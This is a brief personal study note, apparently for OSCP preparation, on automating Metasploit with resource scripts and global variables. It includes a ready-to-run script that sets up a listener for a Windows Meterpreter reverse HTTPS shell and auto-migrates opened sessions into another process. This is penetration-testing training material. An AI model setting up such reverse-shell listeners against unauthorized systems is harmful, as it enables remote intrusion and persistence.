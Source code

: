 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/l-metasploit-framework/7-automated-resource-scripts/","updated":"2024-01-05T11:36:34.997+01:00"}
---
```


----------------
- Set global variables in MSF:
```
setg LHOST <ip>

unsetg LHOST
```

- Pre-configured Metasploit resource scripts:
	/usr/share/metasploit-framework/scripts/resource

- Run resource scripts written in Ruby:
```
sudo msfconsole -r script.rc
```

- Example-script:
	- run -z stops from automatically interacting with session
	- ExitOnSession closes listener on opened session
	- migrate module migrates to notepad.exe as default
```
#Set up listener
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.119.4
set LPORT 443

#Run when session is opened
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
run -z -j
```
